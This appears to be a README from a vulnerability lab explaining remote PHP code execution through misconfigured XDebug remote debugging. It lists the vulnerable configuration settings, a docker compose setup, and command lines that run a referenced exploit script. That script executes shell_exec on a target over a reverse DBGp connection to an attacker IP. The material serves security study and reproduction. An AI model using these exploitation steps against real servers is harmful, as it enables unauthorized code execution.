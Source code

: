 # PHP XDebug Remote Debugging Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

XDebug is a PHP extension used for debugging PHP code. When remote debugging mode is enabled with appropriate settings, an attacker can execute arbitrary PHP code on the target server by exploiting the debug protocol (DBGp).

For XDebug version 2.x, the vulnerability occurs when the following configuration is enabled:

```ini
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
```

For XDebug version 3.x (which introduced breaking changes in configuration), the equivalent vulnerable configuration is:

```ini
xdebug.mode = debug
xdebug.discover_client_host = 1
xdebug.client_host = 1
```

When these configurations are enabled, XDebug will attempt to connect back to the attacker's IP through the DBGp protocol when a client visits the appropriate trigger URL. The DBGp protocol provides an `eval` function that can be used to execute arbitrary PHP code.

References:

- <https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface>
- <https://xdebug.org>

## Environment Setup

Execute the following command to build and start the vulnerable environment:

```
docker compose up -d
```

The environment includes two services:

- PHP 7.1 with XDebug 2.5.5: Accessible at `http://your-ip:8080/`
- PHP 7.4 with XDebug 3.1.6: Accessible at `http://your-ip:8081/`

After the environment is started, visit each URL to see a simple phpinfo page. You can verify that XDebug is enabled and configured for remote debugging in the PHP configuration section.

## Vulnerability Reproduction

Since the vulnerability requires communication using the DBGp protocol with the target server, it cannot be reproduced using HTTP protocol alone.

A proof-of-concept exploit script [exp.py](exp.py) is provided that can execute arbitrary PHP code on the target server. The script supports both XDebug 2.x (port 9000) and XDebug 3.x (port 9003):

```bash
# Requires Python 3 and the requests library
python3 exp.py -t http://[target-ip]:8080/index.php -c 'shell_exec("id");' --dbgp-ip [attacker-ip]
python3 exp.py -t http://[target-ip]:8081/index.php -c 'shell_exec("id");' --dbgp-ip [attacker-ip]
```

Successful exploitation will execute the command and return its output:

![](1.png)

### Important Notes

The exploitation process involves a reverse connection:

1. The exploit script listens on port 9000 (XDebug 2.x) and port 9003 (XDebug 3.x), please make sure these ports are not blocked by the firewall
2. You have to have a public IP address or be in the same network as the target
3. If your public IP differs from your local machine, use the `--dbgp-ip` parameter to specify the IP address that the target server can reach
